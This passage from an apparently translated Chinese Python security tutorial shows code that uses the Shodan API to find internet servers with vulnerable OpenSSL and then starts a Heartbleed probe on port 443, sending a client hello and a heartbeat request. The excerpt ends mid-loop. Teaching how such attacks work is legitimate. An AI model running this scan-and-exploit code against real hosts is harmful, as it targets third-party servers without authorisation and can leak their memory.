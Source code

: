 在以下代码中，我们回顾了我们可以开发的用于搜索易受 openssl 版本易受攻击的 shodan 服务器的主要方法，还需要检查端口 443 是否打开：

```py
def shodanSearchVulnerable(self,query):
    results = self.shodanApi.search(query)
    # Show the results
    print('Results found: %s' % results['total'])
    print('-------------------------------------')
    for result in results['matches']:
        try:
            print('IP: %s' % result['ip_str'])
            print(result['data'])
            host = self.obtain_host_info(result['ip_str'])
            portArray = []
            for i in host['data']:
                port = str(i['port'])
                portArray.append(port)
            print('Checking port 443........................')
            #check heartbeat vulnerability in port 443
            checkVulnerability(result['ip_str'],'443')
        except Exception as e:
            print('Error connecting: %s' % e)
            continue
        except socket.timeout:
            print('Error connecting Timeout error: %s' % e)
            continue

    print('-----------------------------------------------')
    print('Final Results')
    print('-----------------------------------------------')
    if len(server_vulnerable) == 0:
        print('No Server vulnerable found')
    if len(server_vulnerable) > 0:
        print('Server vulnerable found ' + str(len(server_vulnerable)))

    for server in server_vulnerable:
        print('Server vulnerable: '+ server)
        print(self.obtain_host_info(server))
```

一旦我们定义了在 shodan 中搜索的方法并检查了`端口 443`是否打开，我们可以使用`socket`模块检查特定的心脏出血漏洞：

```py
def checkVulnerability(ip,port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print('Connecting with ...' + ip + ' Port: '+ port)
        sys.stdout.flush()
        s.connect((ip, int(port)))
        print('Sending Client Request...')
        sys.stdout.flush()
        s.send(hello)
        print('Waiting for Server Request...')
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print('Server closed connection without sending Server Request.')
                break
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break
            print('Sending heartbeat request...')
            sys.stdout.flush()
            s.send(hb)
```